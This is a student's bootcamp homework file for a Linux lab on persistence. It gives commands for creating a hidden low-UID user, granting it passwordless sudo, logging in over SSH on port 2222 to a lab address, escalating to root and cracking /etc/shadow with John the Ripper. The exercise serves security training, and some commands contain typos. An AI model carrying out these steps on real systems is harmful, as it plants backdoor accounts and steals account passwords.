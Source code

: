 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. 
    - `sudo adduser sysd`

    <br>

    ![sudo](Week6\Images\sudo_adduser.png)

2. Give your secret user a password: 
    - `sudo passwd sysd `

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 987 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 987 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
   -  `Sysd ALL=(ALL:ALL) NO PASSWD:ALL`

6. Test that `sudo` access works without your password:

    -   `sudo -l`

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222 `

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su` 
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

